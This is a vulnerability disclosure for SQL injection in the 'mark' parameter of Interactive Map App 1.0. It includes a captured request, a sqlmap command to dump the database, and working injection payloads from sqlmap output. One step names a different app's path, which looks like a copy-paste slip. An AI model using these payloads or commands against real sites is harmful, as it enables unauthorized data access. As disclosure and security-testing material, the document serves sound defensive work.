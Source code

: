 # Interactive Map App - SQL Injection
+ **Exploit Title:** Interactive Map App - SQL Injection
+ **Date:** 2024-10-05
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://www.sourcecodester.com/php/17354/interactive-map-markers-using-php-and-mysql-source-code.html
+ **Software Link:** https://www.sourcecodester.com/download-code?nid=17354&title=Interactive+Map+with+Marker+Using+PHP+and+MySQL+with+Source+Code
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:
İnteractive Map App  1.0 allows SQL Injection via the 'mark' parameter at "http://localhost/interactive-map-marker/endpoint/delete-mark.php?mark=7". 
Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost/daily-expenses-monitoring-app/"
+ Click the delete any action
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
GET /interactive-map-marker/endpoint/delete-mark.php?mark=7 HTTP/1.1
Host: localhost
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
```

+ Use sqlmap to exploit. In sqlmap, use 'mark' parameter to dump the database.
```
sqlmap -r r.txt -p mark --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: mark (GET)
    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: mark=7' AND EXTRACTVALUE(9267,CONCAT(0x5c,0x716a7a6a71,(SELECT (ELT(9267=9267,1))),0x71767a7171))-- oYuy

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: mark=7';SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: mark=7' AND (SELECT 3083 FROM (SELECT(SLEEP(5)))SmNM)-- VjjM
---
[18:53:21] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.1 (MariaDB fork)
[18:53:22] [INFO] fetching current database
[18:53:22] [INFO] retrieved: 'map_mark_db'
current database: 'map_mark_db'
```
+ current database: `map_mark_db`

![Ekran görüntüsü 2024-05-15 035725](https://github.com/BurakSevben/CVEs/assets/117217689/97c0d0cf-85b6-458c-8489-4be4ee19a783)
